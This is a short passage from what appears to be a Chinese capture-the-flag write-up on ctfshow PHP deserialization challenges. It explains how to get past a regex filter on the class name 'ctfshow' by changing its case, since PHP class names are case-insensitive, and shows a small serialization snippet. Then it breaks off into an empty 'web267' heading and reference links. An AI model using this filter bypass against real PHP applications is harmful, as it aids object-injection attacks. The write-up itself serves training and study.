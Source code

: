 这里匹配`ctfshow` ,匹配到就丢出异常，这样就没法触发`__destrurt魔术方法了`,所以得绕过这个正则。
大小写绕过：

```php
<?php

class ctfshow{
    public $username='xxxxxx';
    public $password='xxxxxx';

}
$a = new ctfshow(); 
echo serialize($a);
```

![image-20210203120511278](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210203120511278.png)

> ```
> 函数名、方法名、类名不区分大小写
> ```

参考：

https://www.cnblogs.com/zrp2013/p/3607581.html

https://www.cnblogs.com/zrp2013/category/491430.html

## web267







https://blog.csdn.net/weixin_43578492/article/details/112128767

https://blog.csdn.net/solitudi/article/details/110499314